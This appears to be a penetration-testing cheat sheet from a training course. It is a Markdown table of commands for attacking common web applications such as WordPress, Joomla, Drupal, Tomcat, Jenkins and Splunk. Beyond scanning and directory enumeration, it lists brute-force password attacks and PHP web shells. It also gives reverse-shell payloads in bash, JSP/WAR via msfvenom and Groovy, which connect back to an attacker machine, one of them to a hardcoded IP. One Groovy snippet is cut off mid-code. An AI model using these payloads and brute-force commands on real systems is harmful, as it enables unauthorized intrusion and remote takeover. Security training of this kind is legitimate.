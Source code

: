 # Attacking Commun Application

| Command                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                    |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `sudo vim /etc/hosts`                                                                                                                                                                                                                         | Opens the `/etc/hosts` with `vim` to start adding hostnames                                                                                                                                                                    |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list`                                                                                                                                                       | Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats (`-oA`)                                                                       |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>`                                                                                                                                                                       | Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`)                                                                                                                  |
| `cat web_discovery.xml \| ./aquatone -nmap`                                                                                                                                                                                                   | Concatenates the contents of nmap scan output (web\_discovery.xml) and pipes it to aquatone (`./aquatone`) while ensuring aquatone recognizes the file as nmap scan output (`-nmap`)                                           |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate`                                                                                                                                                                                | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge                                                                                                               |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>`                                                                                                                 | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`)                                                           |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id`                                                                                                                                                                        | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell                                                                                                                         |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");`                                                                                                                                          | PHP code that will execute a reverse shell on a Linux-based system                                                                                                                                                             |
| `droopescan scan joomla --url http://<domainnameoripaddress>`                                                                                                                                                                                 | Runs `droopescan` against a joomla site located at the specified url                                                                                                                                                           |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>`                                                             | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`)                 |
| `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>`                                                                                                                                                                                 | PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browisng to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command. |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"`                                                                                                                  | Uses curl to navigate to php web shell file and run system commands (`=id`) on the target                                                                                                                                      |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`                                                                                                                         | `gobuster` powered directory brute forcing attack refrencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`)                                                                                        |
| `auxiliary/scanner/http/tomcat_mgr_login`                                                                                                                                                                                                     | Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site                                                                                                                               |
| `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr\_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`)    |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war`                                                                                                      | Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom`                                                                                                                                    |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>`                                                                                                                                                                             | Nmap scan useful in enumerating Apache Tomcat and AJP services                                                                                                                                                                 |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`                                                                    | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux                                                                 |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`                                                                                                                                                                               | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system                                |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`                                                                                         | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows                                                                 |
| [reverse\_shell\_splunk](https://github.com/0xjpuff/reverse\_shell\_splunk)                                                                                                                                                                   | A simple Splunk package for obtaining revershells on Windows and Linux systems                                                                                                                                                 |
